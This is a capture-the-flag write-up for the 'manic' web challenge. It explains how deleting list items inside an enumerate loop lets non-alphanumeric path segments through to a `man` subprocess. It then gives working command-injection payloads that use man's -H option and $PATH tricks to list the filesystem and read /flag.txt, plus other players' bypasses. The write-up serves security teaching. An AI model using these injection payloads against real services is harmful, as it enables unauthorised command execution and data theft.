 ```yaml
---
title: "manic"
description: "Hackers keep getting into my manpage service!"
pubDate: 2025-07-22
ctf: "Ocenia ICC Qualifiers 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-oicc/icon.png"
---
```


Generally when I see a challenge and the author is `hashkitten`... I run away. But not today!

## Where's the flag?

The flag is located at `/flag.txt`, this can be seen in the Dockerfile:
```dockerfile
FROM python:3.13

WORKDIR /app

RUN pip install flask gunicorn
RUN apt-get update && \
  apt-get install -y man-db groff manpages manpages-dev && \
  apt-get clean

COPY src/ .
COPY flag.txt /

RUN chmod -R 755 /flag.txt /app
USER nobody

CMD ["gunicorn", "-w4", "-b0.0.0.0:1337", "app:app"]
```

## Webapp Look

This is the home page of the site:

![Home](images/25-oicc/manic/index.png)

Selecting the first hyperlink redirects us to `/1/grep` and displays the following:

![Grep](images/25-oicc/manic/grep.png)

## Source Code

The handout provides a small Python web application:
```python
from flask import Flask, render_template, Response
import subprocess
import traceback

app = Flask(__name__)

@app.route('/')
def home():
    return render_template('home.html')

@app.route('/<path:command>')
def show_man_page(command):
    command_list = command.split('/')

    # Only alphanumeric please
    for i, cmd in enumerate(command_list):
        if not cmd.isalnum():
            del command_list[i]
    
    result = subprocess.run(['man', *command_list], capture_output=True, text=True)
    output = result.stderr if result.returncode != 0 else result.stdout
  
    return render_template('manpage.html', content=output)

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=1337)
```

The logic is fairly simple, any route that isn't the root page `/` beings the `show_man_page` method.

Inside this method, the path is split into a `command_list`, which is then passed through a loop.

The loop detects if a `cwd` is alphanumeric and if it isn't, it deletes that item from the list using `del`.

Whatever is left in the `command_list` is passed to a `man` command.

So for example from earlier:
- Input is `/1/grep`
- `command_list` is `['1', 'grep']`
- Neither break the `alphanum` check, so they stay!
- `man 1 grep` is executed!

This means not much can be done with special characters as the non-alphanumeric entries are deleted... right?

## `del` isn't safe in loops

The issue lies in usage of `del`, let's create a small sample script to demonstrate.

```python
command = input('Test: ')

command_list = command.split('/')

# Only alphanumeric please
for i, cmd in enumerate(command_list):
        print(command_list)
        if not cmd.isalnum():
                del command_list[i]

print(*command_list)
```

Let's test with some payloads that will work as intended, e.g. `1/grep`:
```
$ python3 sample.py
Test: 1/grep
['1', 'grep']
['1', 'grep']
1 grep
```

Let's try with something that will trip the check.

```
$ python3 sample.py
Test: 1/#/2
['1', '#', '2']
['1', '#', '2']
1 2
```

Working fine, what about 2 strings that will trip the check?

```
$ python3 sample.py
Test: 1/#/#/2
['1', '#', '#', '2']
['1', '#', '#', '2']
['1', '#', '2']
1 # 2
```

Why does that work?

Well, because `del` entirely removes the entry from the list, the `for` loop doesn't account for the index's changing. So when `del` is triggered the index's no longer align as intended, so the check **skips** one of the entries!

## Now what?

There is command injection, but there needs to be a way to get the flag out.

You have to do it with `man` because the command is passed with an array so `;` cannot be used to do additional commands. You can utilise `$()` to execute commands within `man`, but how do you exfiltrate?

This took the longest, reading through the manpage for `man`, I tried a lot of things, but this ended up being the most interesting:
```
-H[browser], --html[=browser]
        This option will cause groff to produce HTML  output,  and  will
        display  that output in a web browser.  The choice of browser is
        determined by the optional browser argument if one is  provided,
        by  the  $BROWSER environment variable, or by a compile-time de‐
        fault if that is unset (usually lynx).  This option implies  -t,
        and will only work with GNU troff.
```

Let's lest locally, what's this do? I tried with a generic `-Htest` but all it does is print nothing. I tried with a simple `echo` payload and we seem to see some success.

`/!/-Hecho hi/man` returns the following:
```
hi /tmp/hmansBYhZS/man.html
```

That works! Let's try to read the flag, but how do we get a `/` without triggering another split in the URL?

The way I did this during the competition was using the first character of `$PATH`!

## RCE to flag

I get LS working like this: `/!/-Hls $(echo%20$PATH|cut -c1)/man`.
```
/tmp/hman9RkXIp/man.html

/:
app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Now we can read the flag with `/!/-Hcat $(echo $PATH|cut -c1)flag.txt/man`!

![flag](images/25-oicc/manic/flag.png)

Flag: `oiccflag{i_wish_i_did_this_more_securely_10a287eb}`

## Other methods done by other players!

- Using `cd ..` to traverse and then just read without including the `/`
- The current location is `/app`, using the `PWD` variable and replacing the `app` with `${PWD%app}` for `/`
- Using base64 encoded strings, then using `base64 -d` and passing it to `sh` using pipes, this can also be done with `$()`
- Using `python` with `-c` and using `chr(int)` to build a payload